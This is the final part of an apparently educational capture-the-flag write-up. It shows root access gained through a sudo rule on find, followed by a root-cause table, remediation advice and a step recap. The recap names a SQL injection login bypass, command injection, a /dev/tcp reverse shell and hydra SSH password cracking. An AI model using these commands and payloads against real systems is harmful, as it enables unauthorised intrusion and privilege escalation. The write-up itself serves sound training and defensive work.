Logged in successfully as `jford`.





**Flag #1 (user.txt)** was in the home directory:

```bash
ls
# user.txt
cat user.txt
```

---

## 7. Privilege Escalation — Sudo Misconfiguration on `find`

With a foothold as `jford`, the very first thing to check for privilege escalation — before anything more involved like kernel exploits — is always:

```bash
sudo -l
```


This lists what commands, if any, the current user is allowed to run as another user (commonly root) without needing their password, or with restricted scope. On this box it revealed that `jford` could run `/usr/bin/find` as root via `sudo` with no further restriction.

**Why this is a critical misconfiguration:** `find` has a built-in `-exec` flag specifically so it can run an arbitrary command against each matched file. If `find` itself is allowed to run as root via sudo, that `-exec` flag becomes a fully arbitrary root command executor — a very well-known "GTFOBins"-style privilege escalation pattern, not specific to this box.

Found the payload from the GitBeans:



```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

**Breakdown of the command:**
- `find .` — search the current directory (the specific path barely matters here; we're using `find` purely as a vehicle to reach `-exec`, not to actually search for anything).
- `-exec /bin/sh \;` — for the first matched item, execute `/bin/sh`. Since the whole `find` process is running as root (via `sudo`), the spawned shell inherits root's privileges.
- `-quit` — tells `find` to stop after the first match/exec, so it doesn't keep trying to spawn a shell for every single file in the directory.

**Result:**

```
# whoami
root
```

Dropped straight into a root shell.

**Flag #2 (root.txt / flag.txt)** was retrieved from `/root/`:

```bash
cd /root
ls
# flag.txt  snap
cat flag.txt
```




---

## 8. Root Cause Summary

| # | Weakness | Where | Real-world equivalent |
|---|----------|-------|------------------------|
| 1 | `robots.txt` disclosing sensitive admin path | `/admin/` disallow entry | Information disclosure via robots.txt |
| 2 | SQL injection — string-concatenated login query | `/admin/` login form | OWASP Top 10 — Injection |
| 3 | OS command injection — unsanitized `host` parameter passed to `ping` | `/admin/sysmaint-checks/ping.php` | OWASP Top 10 — Injection |
| 4 | Overly-verbose "User Lookup" feature leaking internal endpoint names/notes | `lookup.php` | Excessive data exposure / information disclosure |
| 5 | Application database storing user passwords in plaintext | `app.db` `users` table | Improper credential storage |
| 6 | Sensitive DB credentials committed then left on disk with a comment admitting it | `config/db.conf` | Secrets in source-adjacent config files |
| 7 | Weak, guessable human password pattern (season + year) | `jford`'s SSH password | Weak password policy |
| 8 | Unrestricted `sudo` rule on `find` | `sudo -l` output for `jford` | GTFOBins-style sudo misconfiguration |

### Suggested fixes (for a real environment)
- Don't list sensitive paths in `robots.txt` if they must stay hidden — robots.txt is public and readable by anyone, "disallow" is not access control.
- Use parameterized queries / an ORM for all database access — never string-concatenate user input into SQL.
- Never pass user-controlled input into a shell command (`system()`, `exec()`, backticks) — use language-native networking libraries instead of shelling out to `ping`, and if shelling out is unavoidable, use an argument array with `shell=False`-style APIs and strict input validation (e.g., a real IP-address parser).
- Store passwords using a strong, salted hashing algorithm (bcrypt/argon2) everywhere — not just for one credential while another table stores plaintext.
- Remove credential files from webroots and version control entirely; use a secrets manager, and rotate any credential that was ever committed even if later "removed."
- Enforce a password policy that rejects common human patterns (season+year, name+year, etc.) and consider MFA for SSH.
- Audit `sudoers` regularly; never grant unrestricted `sudo` on binaries with known `-exec`/shell-escape primitives (`find`, `vim`, `less`, `awk`, etc. — see GTFOBins) unless absolutely necessary, and prefer scoped commands with fixed arguments.

---

## 9. Timeline / Methodology Recap

1. `nmap -sC -sV` → found SSH (22), Apache/80, Samba (139/445); `robots.txt` flagged `/admin/`.
2. `gobuster` confirmed `/admin/` (301 redirect) and ruled out direct access to `.htaccess`/config files (all 403).
3. SQL injection (`' OR '1'='1' --`) on the admin login → bypassed authentication.
4. "User Lookup" feature revealed a hint pointing at `ping.php` for a service account (`sysmaint`).
5. Confirmed command injection with a harmless `%0Als` payload, then escalated to a full reverse shell via a Bash `/dev/tcp` one-liner.
6. Landed as `www-data`; enumerated writable files → found `db.conf` (bcrypt hash for `jford`) and `app.db` (plaintext user table).
7. Dumped the SQLite `users` table; cross-checked `/etc/passwd` to confirm only `root`, `ubuntu`, and `jford` had real shells.
8. Tried a targeted wordlist built from leaked values against the bcrypt hash → no match. Ran LinPEAS → nothing immediately actionable.
9. Used `hashcat --stdout` with mutation rules to generate season+year password variants, fed the list into `hydra` against SSH → cracked `jford`'s real password (`spring2026!`).
10. Logged in over SSH as `jford` → **user.txt**.
11. `sudo -l` revealed unrestricted `sudo` on `find` → used `find -exec /bin/sh` to spawn a root shell → **root.txt**.

---

*End of write-up.*
